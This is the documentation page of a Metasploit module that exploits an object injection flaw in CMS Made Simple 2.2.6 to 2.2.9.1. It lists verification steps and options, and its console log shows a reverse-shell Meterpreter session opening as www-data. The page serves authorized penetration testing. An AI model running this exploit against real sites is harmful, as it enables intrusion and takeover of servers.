 ## Description

This module exploits an object injection vulnerability on files `action.admin_bulk_template` in DesignManager module (that is installed by default from CMS Made Simple). With an unprivileged user with Designer permission, it is possible to reach an `unserialize` function with a crafted value in the `m1_allparms` parameter resulting in execution of arbitrary PHP code.

Tested on CMS Made Simple 2.2.6, 2.2.7, 2.2.8, 2.2.9 and 2.2.9.1.

## Vulnerable Application

Affecting CMS Made Simple, version 2.2.6, 2.2.7, 2.2.8, 2.2.9, 2.2.9.1

## Verification Steps

1. Setting up a working installation of CMS Made Simple (CMSMS)
2. [OPTIONALLY] setting up a new user, assign it to a group and set the *Designer* permissions on group
3. Start `msfconsole`
4. `use exploit/multi/http/cmsms_object_injection_rce`
5. `set RHOST <IP>`
6. `set USERNAME <USERNAME>`
7. `set PASSWORD <PASSWORD>`
8. `check`
9. You should see `The target appears to be vulnerable.`
10. `exploit`
11. You should get a meterpreter session!

## Options

* **TARGETURI**: Path to CMS Made Simple (CMSMS) App installation (`/` is the default)
* **USERNAME**: Username to authenticate with
* **PASSWORD**: Password to authenticate with

## Scenario

### Tested on CMS Made Simple (CMSMS) 2.2.8

```
msf5 > use exploit/multi/http/cmsms_object_injection_rce
msf5 exploit(multi/http/cmsms_object_injection_rce) > set rhosts target.com
rhosts => target.com
msf5 exploit(multi/http/cmsms_object_injection_rce) > check
[*] 192.168.1.64:80 - The target appears to be vulnerable.
msf5 exploit(multi/http/cmsms_object_injection_rce) > set username daniele
username => daniele
msf5 exploit(multi/http/cmsms_object_injection_rce) > set password qwerty
password => qwerty
msf5 exploit(multi/http/cmsms_object_injection_rce) > set targeturi /cmsms/
targeturi => /cmsms/
msf5 exploit(multi/http/cmsms_object_injection_rce) > exploit

[*] Started reverse TCP handler on 192.168.1.64:4444
[*] Sending stage (38247 bytes) to 192.168.1.64
[*] Meterpreter session 1 opened (192.168.1.64:4444 -> 192.168.1.64:41308) at 2019-11-01 11:15:57 +0100
[+] Deleted RsjeISeAu.php

meterpreter > getuid
Server username: www-data (33)
meterpreter > quit
[*] Shutting down Meterpreter...

[*] 192.168.1.64 - Meterpreter session 1 closed.  Reason: User exit
msf5 exploit(multi/http/cmsms_object_injection_rce) > 
```
